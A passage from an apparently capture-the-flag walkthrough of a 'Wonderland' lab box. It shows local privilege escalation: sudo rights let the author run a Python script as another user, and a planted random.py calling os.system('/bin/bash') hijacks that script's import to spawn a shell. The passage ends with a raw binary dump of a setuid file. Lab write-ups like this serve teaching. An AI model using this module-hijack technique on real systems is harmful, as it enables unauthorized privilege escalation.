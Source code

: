 ```

alice@wonderland:~$ sudo -l
[sudo] password for alice: 
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

As `rabbit` we can execute `walrus_and_the_carpenter.py`

Let's do this

We can use path manipulation techniques. On first line of `walrus_and_the_carpenter.py`, it imports a module `random`.
If we create a `random.py` file in the same directory, the first line will run that file
We can use the `random.py` file to give us a shell as `rabbit`

`random.py`
```

import os
os.system("/bin/bash")
```

Let's execute the `walrus_and_the_carpenter.py` file

`sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`
this will give us a shell as `rabbit`

Now move to `rabbit` home directory 

`cd ../rabbit/`

```

rabbit@wonderland:/home/rabbit$ ls
teaParty
```

Let's check what kind of file `teaParty` is

```
rabbit@wonderland:/home/rabbit$ file teaParty 
teaParty: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=75a832557e341d3f65157c22fafd6d6ed7413474, not stripped
```
it's a executable file **(ELF)**

```

rabbit@wonderland:/home/rabbit$ cat teaParty 
ELF>�@0:@8
          @@@@h���HH==   88�-�=�=hp�-�=�=����DDP�td� � � <<Q�tdR�td�-�=�=▒▒/lib64/ld-linux-x86-64.so.2GNUGNUu�2U~4?e|"��mn�A4t
�
�e�mZ <v 5� 
            &"libc.so.6setuidputsgetcharsystem__cxa_finalizesetgid__libc_start_mainGLIBC_2.2.5_ITM_deregisterTMCloneTable__gmon_start___ITM_registerTMCloneTableu▒i        N�p�0HH@�?�?�?��?
#H�=��&/�DH�=�/H��/H9�tH��.H��t������H�=Y/H�5R/H)�H��H��H��?H�H��tH��.H����fD���=/u/UH�=�.H��tf�1�I��^H��H���PTL��H�
                                                                                              H�=�.�-����h�����.]�����{���UH����������������H�=t�����H�=������H�=����������H�=�n����]�f.��AWI��AVI��AUA��ATL�%,UH�-,SL)�H�����H��t�L��L��D��A��H��H9�u�H�[]A\A]A^A_��H�H��Welcome to the tea party!
The Mad Hatter will be here soon./bin/echo -n 'Probably by ' && date --date='next hour' -RAsk very nicely, and I will give you some tea while you wait for himSegmentation fault (core dumped)8,�������������T����������<���,zRx ....
```